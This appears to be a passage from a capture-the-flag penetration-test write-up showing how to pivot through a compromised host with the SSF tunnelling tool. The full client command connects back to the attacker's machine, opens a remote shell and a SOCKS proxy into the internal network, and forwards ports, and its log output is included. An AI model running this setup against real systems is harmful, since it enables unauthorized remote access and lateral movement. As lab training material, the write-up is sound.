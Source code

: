 
Now the server is running on port 8011, which is the default port. I can
change the port with the `-p [port]` option.

### Client

On target host I will start the client, telling it to connect back to my box.
I’ll use the following options:

  * `-g` \- allow gateway ports. This allows client to bind local sockets to address besides localhost.
  * `-F 1080` \- This runs a socks proxy on the server on port 1080.
  * `-Y 1111` \- This opens local port 1111 as a shell on the client.
  * `-L 172.19.0.4:2222:10.10.14.3:2222` and `-L 172.19.0.4:3333:10.10.14.3:3333` \- These will open listeners on the target machine that will forwards back to my attacker box. This will come in handy when I want to exploit further machines that can’t talk to my attacker box directly.

    
    
    # ./ssf -g -F 1080 -Y 1111 -L 172.19.0.4:2222:10.10.14.3:2222 -L 172.19.0.4:3333:10.10.14.3:3333 10.10.14.3
    [2019-01-23T20:04:34+00:00] [info] [config] loading file <config.json>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] CA cert path: <file: ./certs/trusted/ca.crt>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] cert path: <file: ./certs/certificate.crt>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] key path: <file: ./certs/private.key>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] key password: <>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] dh path: <file: ./certs/dh4096.pem>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] cipher suite: <DHE-RSA-AES256-GCM-SHA384>
    [2019-01-23T20:04:34+00:00] [info] [config] [http proxy] <None>
    [2019-01-23T20:04:34+00:00] [info] [config] [socks proxy] <None>
    [2019-01-23T20:04:34+00:00] [info] [config] [microservices][shell] path: </bin/bash>
    [2019-01-23T20:04:34+00:00] [info] [config] [circuit] <None>
    [2019-01-23T20:04:34+00:00] [info] [ssf] connecting to <10.10.14.3:8011>
    [2019-01-23T20:04:34+00:00] [info] [ssf] running (Ctrl + C to stop)
    [2019-01-23T20:04:34+00:00] [info] [client] connection attempt 1/1
    [2019-01-23T20:04:34+00:00] [info] [client] connected to server
    [2019-01-23T20:04:34+00:00] [info] [client] running
    [2019-01-23T20:04:35+00:00] [info] [microservice] [shell]: start server on fiber port 1111
    [2019-01-23T20:04:35+00:00] [info] [client] service <remote-shell> OK
    [2019-01-23T20:04:35+00:00] [info] [microservice] [socks]: start server on fiber port 1080
    [2019-01-23T20:04:35+00:00] [info] [client] service <remote-socks> OK
    [2019-01-23T20:04:35+00:00] [info] [microservice] [stream_listener]: forward TCP connections from <172.19.0.4:2222> to 2222
    [2019-01-23T20:04:35+00:00] [info] [client] service <tcp-forward> OK
    [2019-01-23T20:04:35+00:00] [info] [microservice] [stream_listener]: forward TCP connections from <172.19.0.4:3333> to 3333
    [2019-01-23T20:04:35+00:00] [info] [client] service <tcp-forward> OK
    

I now have following setup:

  * Listening socket on `kali:1080` that is providing a SOCKS proxy to the network behind the target.
  * Listening socket on `kali:1111` that is providing a shell to the target.
  * Tunnels from target box back to local sockets for future shells or file uploads.
